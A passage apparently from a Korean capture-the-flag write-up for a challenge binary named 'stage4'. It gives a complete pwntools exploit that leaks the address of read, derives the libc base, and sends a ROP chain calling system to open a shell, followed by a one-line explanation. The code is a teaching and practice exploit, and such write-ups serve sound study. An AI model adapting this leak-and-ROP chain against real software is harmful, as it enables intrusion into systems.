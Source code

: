 <img src="/assets/img/SpaceAloneMacOS/27.png" alt="chapter4_ROPgadget" width="70%" style="display: block; margin: 0 auto;">

- Payload

```python
from pwn import *

p = process("./stage4")
e = ELF("./stage4")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.log_level = "debug"
context.arch = "amd64"

binsh = e.symbols["MasterKey"]
read_got = e.got["read"]

p_rdi = 0x0000000000401215
ret = 0x000000000040101a

p.sendlineafter(b'Choose the display stand : ', b'2')

p.recvuntil(b'Address of freezer warehouse : ')
read = int(p.recvline(), 16)
log.info(f"read : {hex(read)}")

libc_base = read - libc.symbols["read"]
system = libc_base + libc.symbols["system"]

log.info(f"libc_base : {hex(libc_base)}")
log.info(f"system : {hex(system)}")

payload = b'A' * 0x40
payload += b'B' * 24
payload += p64(p_rdi)
payload += p64(binsh)
payload += p64(ret)
payload += p64(system)

p.sendafter(b'Please select the quantity of the item : ', payload)
p.interactive()
```
출력되는 read의 주소를 받고, 그 주소를 바탕으로 libc base leak을 한 뒤 ROP를 통해 system(”/bin/sh”)를 실행해주는 방식으로 Payload를 작성했습니다.
